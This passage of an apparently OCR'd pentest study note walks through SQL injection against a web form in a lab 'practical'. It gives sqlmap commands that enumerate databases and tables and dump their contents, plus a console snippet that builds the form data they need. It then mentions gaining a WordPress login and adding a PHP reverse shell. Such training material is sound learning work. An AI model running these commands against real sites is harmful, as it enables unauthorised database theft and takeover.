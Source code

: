 ```bash
sqlmap -u "<url>" --wizard
```

If you've found a form, you can paste the following JavaScript method into your browser's console to get the data string.

```javascript
console.log(
  Array.from(document.querySelector("form").querySelectorAll("input"))
    .map((input) => `${input.name}=${input.value || ""}`)
    .join("&")
);
```

When you have it, try and find a list of databases using:

```bash
sqlmap -u "<url>" --dbs --data="<data>" --level 2 --risk 2
```

Typically, it will use a delay based technique to determine the contents of the SQL database. If you issued the above command, and followed the prompts, you'll see the command will slowly letter-by-letter spell out the databases on the device. When you see one that will aid your takeover.

Once you see a database that will be of interest, feel free to perform a keyboard interrupt and continue on with the next steps.

Find the tables in the target database:

```bash
sqlmap -u "<url>" --batch --tables -D <database> --data="<data>"
```

Once again it will type out letter-by-letter the contents of the table. When you spot something interesting, skip straight to finding it's contents.

Find the contents of a table:

```bash
sqlmap -u "<url>" --batch --dump -D <database> -T <table> --data="<data>"
```

Note: Instead of going through step by step like I explained, you could use the `sqlmap` wizard. I find this to be incredibly slow however, and wouldn't encourage it in a time-limited situation. Nonetheless, if you'd like to use the wizard issue the command:

```bash
sqlmap -u "<url>" --wizard
```

### Take control

The steps to get a reverse shell will depend on the content of the database. In the case of the practical, finding the contents of the database allowed you to log into the wordpress site that was present. After logging in, a php reverse shell script could easily be added to the site.

### Tips

1. Try accessing the site using different protocols. `https://` and `http://` are often used to show different things.
